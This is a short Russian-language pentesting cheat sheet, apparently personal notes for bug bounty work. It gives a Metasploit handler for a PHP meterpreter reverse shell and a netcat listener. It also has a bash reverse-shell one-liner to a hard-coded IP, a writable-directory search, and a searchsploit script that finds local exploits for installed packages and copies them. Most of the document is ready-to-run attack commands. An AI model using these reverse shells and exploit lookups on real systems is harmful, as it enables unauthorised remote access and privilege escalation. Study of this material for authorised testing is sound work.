 # Info

+ https://hacker101.com/
+ https://bugbounty.ru/
+ https://bugbounty.standoff365.com/
+ https://bugbounty.bi.zone/

## Metasploit framework

Содержит эксплоиты различных уязвимостей.

Позволяет удобно использовать rce, создавая сессии с уязвимым хостом.

Пример создания сессии с загруженным php файлом:

```shell
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST <ваш_IP>
set LPORT 4444
exploit
```

## netcat

Более понятный способ установки обратного соединения

```shell
# Создаем слушателя на стороне атакующего
nc -lvnp 4444
```

```shell
# Выполняем команду на стороне жертвы
bash -i >& /dev/tcp/10.127.241.33/4444 0>&1
```

Команда позволяет найти директории, в которых пользователь может создавать файлы
```shell
find / -type d -writable 2>dev/null
```

Команда создает соединение и позволяет выполнять команды на удаленном хосте

## Searchsploit

Вывод установленных пакетов в linux и их версий

Надо доработать, чтобы постфиксы :amd64 убирал в названии пакетов

```shell
dpkg -l | awk '/^ii/ {print $2, $3}'
```

Скрипт для проверки пакетов в searchsploit

```shell
#!/bin/bash

# Файл с именами приложений
file="apps.txt"

while IFS= read -r app; do
    echo "Searching exploits for: $app"
    searchsploit "$app"
    echo "-------------------------------------"
done < "$file"
```

После того как находим информацию, копируем exploit локально

```shell
searchsploit -m linux/local/15304.txt
```
